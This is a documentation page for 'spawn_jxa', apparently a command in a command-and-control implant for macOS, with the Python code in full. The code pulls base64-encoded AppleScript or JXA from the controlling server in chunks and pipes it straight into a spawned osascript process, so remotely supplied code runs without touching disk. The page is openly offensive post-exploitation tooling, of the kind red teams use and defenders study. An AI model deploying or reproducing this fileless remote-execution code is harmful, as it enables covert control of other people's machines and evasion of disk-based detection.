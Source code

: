 +++
title = "spawn_jxa"
chapter = false
weight = 100
hidden = false
+++

## Summary

This spawns a new instance of `osascript` and uses the subprocess library to pipe uploaded AppleScript/JXA script content to it, preventing the need to drop any script to disk.  

- Python Versions Supported: 2.7, 3.8
- Needs Admin: False  
- Version: 1  
- Author: @ajpc500  

### Arguments

#### file

- Description: script file to load into agent
- Required Value: True  
- Default Value: None  

#### language

- Description: language of script to execute
- Required Value: True  
- Default Value: JavaScript  

## Usage

```
spawn_jxa
```

## Detailed Summary

The python script is downloaded and executed by piping content to the stdin of the newly spawned `osascript` process.

```Python
    def spawn_jxa(self, task_id, file, language):
        import os
        import subprocess
        
        total_chunks = 1
        chunk_num = 0
        cmd_code = ""
        while (chunk_num < total_chunks):
            if [task for task in self.taskings if task["task_id"] == task_id][0]["stopped"]:
                return "Job stopped."
            data = { "action": "post_response", "responses": [
                    { "upload": { "chunk_size": CHUNK_SIZE, "file_id": file, "chunk_num": chunk_num+1 }, "task_id": task_id }
                ]}
            response = self.postMessageAndRetrieveResponse(data)
            chunk = response["responses"][0]
            chunk_num+=1
            total_chunks = chunk["total_chunks"]
            cmd_code += base64.b64decode(chunk["chunk_data"]).decode()
            
        if cmd_code: 
            args = []
            if language == "JavaScript":
                args = ["osascript", "-l", "JavaScript", "-"]
            elif language == "AppleScript":
                args = ["osascript", "-"]

            osapipe = subprocess.Popen(args, stdin=subprocess.PIPE, stdout=subprocess.PIPE, 
                stderr=subprocess.PIPE)

            osapipe.stdin.write(cmd_code.encode())
            stdout, stderr = osapipe.communicate()
            out = stderr if stderr else stdout
            return str(out)
        else: return "Failed to load script"

```